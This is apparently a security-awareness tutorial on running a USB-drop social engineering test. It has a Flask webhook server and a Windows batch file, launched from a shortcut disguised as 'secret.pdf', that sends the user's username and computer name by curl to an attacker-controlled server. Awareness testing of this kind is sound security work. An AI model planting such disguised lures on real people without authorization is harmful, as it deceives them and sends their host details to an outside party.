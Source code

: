 ```yaml
---
icon: usb
---
```


# USB stick awareness

If you watch Mr. Robot, you must remember a scene where Darlene drops several USB sticks around a prison in order to Elliot get an reverse shell access. All that is needed is someone to pick it up and plug into a computer. Pretty cool, right?

<figure><img src="../.gitbook/assets/usbstick.gif" alt=""><figcaption><p>Mr. Robot Season 1, Episode 6.</p></figcaption></figure>

So, I'm not actually going to show how to create a Rubber Ducky for malicious purposes, instead, let's create a social engineering campaign with regular USB sticks. The purpose is to drop the USB sticks and create awareness to every user.

We need an attacker machine, ideally Kali running a Flask server, and as many USB sticks as you want.

So, let's dive into it!

**Prerequisites**

* **Python**: Make sure you have Python installed on your machine. You can download it from python.org.
*   **Flask**: You can install Flask using pip. Open your terminal or command prompt and run:

    ```bash
    pip install Flask
    ```

**Step-by-Step Guide to Create a Webhook**

1.  **Create a New Directory**: Create a new directory for your webhook project and navigate into it.

    ```bash
    mkdir my_webhook
    cd my_webhook
    ```
2. **Create a Python File**: Create a new Python file, e.g., `webhook.py`, and open it in your text editor.
3.  **Write the Webhook Code**: Add the following code to `webhook.py`:

    ```python
    from flask import Flask, request, jsonify
    import logging

    app = Flask(__name__)

    # Set up logging
    logging.basicConfig(level=logging.INFO)

    @app.route('/webhook', methods=['POST'])
    def webhook():
        # Get the JSON data from the request
        data = request.json
        
        # Log the received data
        logging.info(f"Received data: {data}")

        # Respond with a success message
        return jsonify({"status": "success", "message": "Data received"}), 200

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=5000)
    ```
4.  **Run the Webhook Server**: In your terminal, run the following command to start the Flask server:

    ```bash
    python webhook.py
    ```

    The server will start and listen for incoming requests on `http://localhost:5000/webhook`.
5.  **Testing the Webhook**: You can test the webhook using a tool like curl or Postman. Here’s how to test it using curl: Open a new terminal window and run:

    {% code overflow="wrap" %}
    ```bash
    curl -X POST http://localhost:5000/webhook -H "Content-Type: application/json" -d "{\"username\":\"test_user\", \"message\":\"USB accessed\"}"
    ```
    {% endcode %}

    You should see a response indicating that the data was received, and the server logs should show the received data.

**Now for the USB stick**

1.  **Create a batch file**: Create a new batch file, **script.bat** in the root of the USB stick:

    {% code overflow="wrap" %}
    ```batch
    @echo off
    setlocal

    REM Open Social Engineering Awareness document
    start "" "awareness.pdf"

    REM Retrieve user information
    set USERNAME=%USERNAME%
    set COMPUTERNAME=%COMPUTERNAME%

    REM Set USERINFO with escaped quotes
    set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}

    echo Sending the following JSON: %USERINFO%

    REM Send the information to the Flask server
    curl -X POST http://server_ip:5000/webhook -H "Content-Type: application/json" -d "%USERINFO%"

    Endlocal
    ```
    {% endcode %}

    Make sure you change the **server\_ip** for the actual attacker machine IP.
2. **Download an .ico file**: We can use a .ico file repository like [https://www.shareicon.net/](https://www.shareicon.net/t) and download any pdf .ico you like. Place it at the root of the USB stick.
3. **Move the awareness.pdf** file also into the root of the USB stick.
4. **Create a shortcut of the script.bat file**: Right click the shortcut, go to properties and click on **Change icon** and choose the .ico file you just downloaded it. Then rename the file to something mysterious like **secret.pdf**
5. **Put all the files Hidden except for the shortcut, secret.pdf**: Then we untick the **Hidden items** option

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>All visible files</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>What the user will see, hopefully</p></figcaption></figure>

Sure, we can see it is a shortcut, and we must rely on the fact that the victim has the 'Hidden items' option unticked. However, the purpose is for the user to notice the small details and create awareness within the organization.

{% hint style="info" %}
If noticed in the script.bat had the following line:

{% code overflow="wrap" %}
```batch
set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}
```
{% endcode %}

The 'id' parameter is useful when multiple USB sticks are used. For example, you can number the USB sticks and adjust the script accordingly. If someone plugs in USB stick 1 on the first floor (build A, room X, etc.), you will receive the information on the Flask server.
{% endhint %}



